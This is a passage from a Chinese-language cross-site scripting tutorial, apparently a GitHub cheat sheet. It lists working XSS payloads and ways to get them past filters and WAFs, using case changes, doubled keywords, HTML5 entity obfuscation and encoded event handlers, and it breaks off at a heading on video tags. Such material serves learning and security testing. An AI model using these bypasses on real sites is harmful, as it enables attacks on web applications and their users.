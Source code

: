 将如下payload保存为xml文件, 上传到服务器并访问即可触发弹窗
`<something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(/xss/)</something:script>`


### 过滤器绕过
#### 大小写绕过
将原本的 `<script>alert(7)</script>` 进行大小写转换，例如：`<sCRiPt>alert(7)</sCrIpT>`

注意: JS严格区别大小写, HTML不区分大小写.
可以测试下 `<sCRiPt>alErt(7)</sCrIpT>` 行不行? 答案必然是否定的。


### 双写绕过

当两个字符以上被替换为空时，例如这里会将script关键字替换为空，然后剩下可用的部分：
`<scscriptript>alert(7)</scscriptript>`

又例如:select关键字被WAF拦截, 且网站有存在代码写的过滤器将script关键字替换为空，构造关键字:selscriptect 经过WAF,没有被识别; 经过过滤器,将script替换为空; 最后又变为select.

### 特殊字符混淆绕过

常用特殊字符:
- `&NewLine;` (H5新实体编码,表示回车)
- `&colon;` (H5新实体编码,表示冒号)
- `&lpar;` (左圆括号)
- `&rpar;` (右圆括号)
- `  (反引号可代替左右圆括号)
- `%0a` (回车)
- `%0d` (换行)
- `%09`
- `%0b`
- `%0c`

例如：

```
<iframe src=javascript:alert(7)>
<!--  -->
<iframe src=ja&NewLine;vasc&NewLine;ript&colon;alert&NewLine;&lpar;7&rpar;>
```

### 编解码绕过

几乎所有的Payload基本都可以通过编码或者js语法来变形, 但编码绕过的情况个人感觉也不是很多。

```
<details ontoggle=a=alert,a(7) open>
<input onmouseover='j&#97;v\u0061script:&#97;lert(7)'>
<input onmouseover=loc\u0061tion='j&#97;v\u0061s'+'cript:&#97;le'+'rt(7)'>
```
### HTML5新标签

#### video 标签
